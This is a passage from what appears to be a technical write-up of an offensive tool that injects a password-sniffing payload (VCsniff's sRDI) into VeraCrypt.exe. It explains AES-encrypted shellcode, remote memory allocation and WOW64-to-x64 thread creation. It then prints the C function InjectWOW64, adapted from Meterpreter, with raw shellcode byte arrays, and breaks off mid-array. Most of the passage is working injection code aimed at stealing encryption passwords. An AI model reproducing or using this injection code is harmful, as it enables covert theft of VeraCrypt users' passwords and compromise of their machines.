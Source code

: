 The 2 functions `sh_executex64` and `sh_wownativex` are in shellcode form and are AES-encrypted at the beginning. Then we have a classic process injection into `VeraCrypt.exe` with `VirtualAllocEx` and `WriteProcessMemory`, by first decrypting the `payload`, which is the sRDI from VCsniff that is responsible for the actual stealing (sniffing) of the password.

After that, 2 buffers are allocated for the functions `sh_executex64` and `wownativex`, where the decrypted payloads will be stored. After they are decrypted, they are copied over the wow64->x64 stub and the native x64 function, which are the addresses of the allocated region of pages `pExecuteX64` and `pX64function` respectively.

Then, the WOW64 context is set up, which is a structure for injection via `migrate_via_remotethread_wow64`. The members are the following: **a handle to the process where the thread should be created**, **the address of the function to execute on the new thread (the stealing (sniffing) shellcode from VeraCrypt injection)**, **a user-provided argument to pass to the thread start routine** and **an optional pointer to a variable that receives a handle to the new thread**. Since the function `RtlCreateUserThread` is undocumented, we can find more information at <a href="https://ntdoc.m417z.com/rtlcreateuserthread" target="_blank">Native API online documentation, by m417z</a> about the previous members.

Finally, a new thread is created in `VeraCrypt.exe`. If it is successful, we resume the thread, execute the payload and release the region of pages by `pExecuteX64` and `pX64function`. The code of `InjectWOW64` is shown below:

```c
int InjectWOW64(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
//	src: https://github.com/rapid7/meterpreter/blob/5e24206d510a48db284d5f399a6951cd1b4c754b/source/common/arch/win/i386/base_inject.c

	LPVOID pRemoteCode = NULL;
	EXECUTEX64 pExecuteX64   = NULL;
	X64FUNCTION pX64function = NULL;
	WOW64CONTEXT * ctx       = NULL;

/*
 A simple function to execute native x64 code from a wow64 (x86) process. 

 Can be called from C using the following prototype:
     typedef DWORD (WINAPI * EXECUTEX64)( X64FUNCTION pFunction, DWORD dwParameter );
 The native x64 function you specify must be in the following form (as well as being x64 code):
     typedef BOOL (WINAPI * X64FUNCTION)( DWORD dwParameter );

 Original binary:
     src: https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/migrate/executex64.asm
	BYTE sh_executex64[] =  "\x55\x89\xE5\x56\x57\x8B\x75\x08\x8B\x4D\x0C\xE8\x00\x00\x00\x00"
							"\x58\x83\xC0\x25\x83\xEC\x08\x89\xE2\xC7\x42\x04\x33\x00\x00\x00"
							"\x89\x02\xE8\x09\x00\x00\x00\x83\xC4\x14\x5F\x5E\x5D\xC2\x08\x00"
							"\x8B\x3C\x24\xFF\x2A\x48\x31\xC0\x57\xFF\xD6\x5F\x50\xC7\x44\x24"
							"\x04\x23\x00\x00\x00\x89\x3C\x24\xFF\x2C\x24";

	src: https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x64/src/migrate/remotethread.asm
	BYTE sh_wownativex[] = "\xFC\x48\x89\xCE\x48\x89\xE7\x48\x83\xE4\xF0\xE8\xC8\x00\x00\x00"
							"\x41\x51\x41\x50\x52\x51\x56\x48\x31\xD2\x65\x48\x8B\x52\x60\x48"
							"\x8B\x52\x18\x48\x8B\x52\x20\x48\x8B\x72\x50\x48\x0F\xB7\x4A\x4A"
							"\x4D\x31\xC9\x48\x31\xC0\xAC\x3C\x61\x7C\x02\x2C\x20\x41\xC1\xC9"
							"\x0D\x41\x01\xC1\xE2\xED\x52\x41\x51\x48\x8B\x52\x20\x8B\x42\x3C"
							"\x48\x01\xD0\x66\x81\x78\x18\x0B\x02\x75\x72\x8B\x80\x88\x00\x00"
							"\x00\x48\x85\xC0\x74\x67\x48\x01\xD0\x50\x8B\x48\x18\x44\x8B\x40"
							"\x20\x49\x01\xD0\xE3\x56\x48\xFF\xC9\x41\x8B\x34\x88\x48\x01\xD6"
							"\x4D\x31\xC9\x48\x31\xC0\xAC\x41\xC1\xC9\x0D\x41\x01\xC1\x38\xE0"
							"\x75\xF1\x4C\x03\x4C\x24\x08\x45\x39\xD1\x75\xD8\x58\x44\x8B\x40"
							"\x24\x49\x01\xD0\x66\x41\x8B\x0C\x48\x44\x8B\x40\x1C\x49\x01\xD0"
							"\x41\x8B\x04\x88\x48\x01\xD0\x41\x58\x41\x58\x5E\x59\x5A\x41\x58"
							"\x41\x59\x41\x5A\x48\x83\xEC\x20\x41\x52\xFF\xE0\x58\x41\x59\x5A"
							"\x48\x8B\x12\xE9\x4F\xFF\xFF\xFF\x5D\x4D\x31\xC9\x41\x51\x48\x8D"
```